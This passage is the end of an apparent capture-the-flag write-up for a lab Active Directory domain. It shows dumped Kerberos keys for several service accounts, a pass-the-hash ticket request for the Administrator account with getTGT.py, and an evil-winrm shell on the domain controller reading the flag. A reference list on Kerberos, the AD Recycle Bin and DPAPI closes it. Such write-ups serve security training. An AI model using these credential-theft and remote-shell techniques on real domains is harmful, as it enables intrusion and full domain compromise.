voleur.htb\svc_backup:aes128-cts-hmac-sha1-96:d6e19577c07b71eb8de65ec051cf4ddd
voleur.htb\svc_backup:des-cbc-md5:7ab513f8ab7f765e
voleur.htb\svc_iis:aes256-cts-hmac-sha1-96:77f1ce6c111fb2e712d814cdf8023f4e9c168841a706acacbaff4c4ecc772258
voleur.htb\svc_iis:aes128-cts-hmac-sha1-96:265363402ca1d4c6bd230f67137c1395
voleur.htb\svc_iis:des-cbc-md5:70ce25431c577f92
voleur.htb\jeremy.combs:aes256-cts-hmac-sha1-96:8bbb5ef576ea115a5d36348f7aa1a5e4ea70f7e74cd77c07aee3e9760557baa0
voleur.htb\jeremy.combs:aes128-cts-hmac-sha1-96:b70ef221c7ea1b59a4cfca2d857f8a27
voleur.htb\jeremy.combs:des-cbc-md5:192f702abff75257
voleur.htb\svc_winrm:aes256-cts-hmac-sha1-96:6285ca8b7770d08d625e437ee8a4e7ee6994eccc579276a24387470eaddce114
voleur.htb\svc_winrm:aes128-cts-hmac-sha1-96:f21998eb094707a8a3bac122cb80b831
voleur.htb\svc_winrm:des-cbc-md5:32b61fb92a7010ab
[*] Cleaning up... 
``` 

Login as the administrator

```console
getTGT.py -dc-ip 10.10.11.76 -hashes aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2 voleur.htb/Administrator
export KRB5CCNAME=/home/eid3t1c/Desktop/voleur/Administrator.ccache
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in Administrator.ccache
```

```console
evil-winrm -i dc.voleur.htb -r VOLEUR.HTB                           
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

*Evil-WinRM* PS C:\Users\Administrator\Documents> more ../Desktop/root.txt
bff10bb6d0ae9...
```

# References

- [What is Kerberos? Kerberos Authentication Explained](https://www.vaadata.com/blog/what-is-kerberos-kerberos-authentication-explained/)
- [DnD: Kerberos Service Accounts & Attacks (Pt 1.5)](https://blog.spookysec.net/DnD-Kerberos-Service-Accounts-&-Attacks-pt-1.5/)
- [Understanding Kerberos for Security Professionals – Part 1](https://medium.com/@cyberpro151/understanding-kerberos-for-security-professionals-part-1-0fce109a6bf4)
- [AD Bin – Active Directory Article](https://cravaterouge.com/articles/ad-bin/)
- [Reanimating Active Directory Tombstone Objects – Best Practices](https://www.veeam.com/blog/reanimating-active-directory-tombstone-objects-best-practices-for-ad-protection.html)
- [Leveraging Active Directory Recycle Bin – Best Practices](https://www.veeam.com/blog/leveraging-active-directory-recycle-bin-best-practices-for-ad-protection.html)
- [The AD Recycle Bin: Understanding, Implementing, and Troubleshooting](https://techcommunity.microsoft.com/blog/askds/the-ad-recycle-bin-understanding-implementing-best-practices-and-troubleshooting/396944)
- [DPAPI In-Depth with Tooling – Standalone DPAPI](https://www.insecurity.be/blog/2020/12/24/dpapi-in-depth-with-tooling-standalone-dpapi/)
- [Windows Data Protection API – Threat Hunter Playbook](https://threathunterplaybook.com/library/windows/data_protection_api.html)
- [The Downfall of DPAPI’s Top Secret Weapon](https://www.sygnia.co/blog/the-downfall-of-dpapis-top-secret-weapon/)
